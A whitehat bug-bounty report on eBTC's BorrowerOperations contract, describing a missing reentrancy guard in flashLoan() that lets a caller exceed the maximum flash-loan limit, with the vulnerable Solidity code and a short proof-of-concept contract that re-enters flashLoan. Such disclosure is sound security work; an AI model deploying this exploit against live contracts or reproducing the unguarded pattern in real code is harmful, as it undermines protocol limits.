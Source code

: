 # Reentrancy on BorrowerOperations allows users to borrow greater than Max Flash Loan

Submitted about 1 month ago by @shanb1605 (Whitehat) for Boost | eBTC

Report ID: #28713

Report type: Smart Contract

Has PoC? Yes

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details

Permalink: https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091

# Brief/Intro
The `flashLoan()` allows users to borrow ebtc on BorrowerOperations. The amount that can be borrowed is limited to maxFlashLoan(token) means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

# Vulnerability Details

The BorrowerOperations contract misses reentrancy protection on flashLoan() which leads to borrowing over the max borrowing limit of the token.

```
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "BorrowerOperations: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `eBTCToken` is implicit here // NOTE: Pause check is here
        require(amount <= maxFlashLoan(token), "BorrowerOperations: Too much");

        // Issue EBTC
        ebtcToken.mint(address(receiver), amount);

        // Callback
        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "IERC3156: Callback failed"
        );

        // Gas: Repay from user balance, so we don't trigger a new SSTORE
        // Safe to use transferFrom and unchecked as it's a standard token
        // Also saves gas
        // Send both fee and amount to FEE_RECIPIENT, to burn allowance per EIP-3156
        ebtcToken.transferFrom(address(receiver), feeRecipientAddress, fee + amount);

        // Burn amount, from FEE_RECIPIENT
        ebtcToken.burn(feeRecipientAddress, amount);

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

# Impact Details
**Contract fails to deliver promised returns, but doesn't lose value**: The contract promises to lend within the maximum flash loan amount to the users. However, the malicious users can re-enter the `flashloan()` function and borrow above the maximum limit. Hence, the contract fails to deliver the promise.

# References
MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

# Proof of concept

- First call_Flashloan() is executed to borrow the max amount of ebtc.
- Inside onFlashLoan some_actions() will executed to borrow again the ebtc from the BorrowerOperations contract.
- It sets attack_done = true to prevent an unbounded loop.
- Further actions will be carried out with the Flash Loan amount.

```
pragma solidity ^0.8.0;

interface BorrowerOperations {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            BorrowerOperations(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```
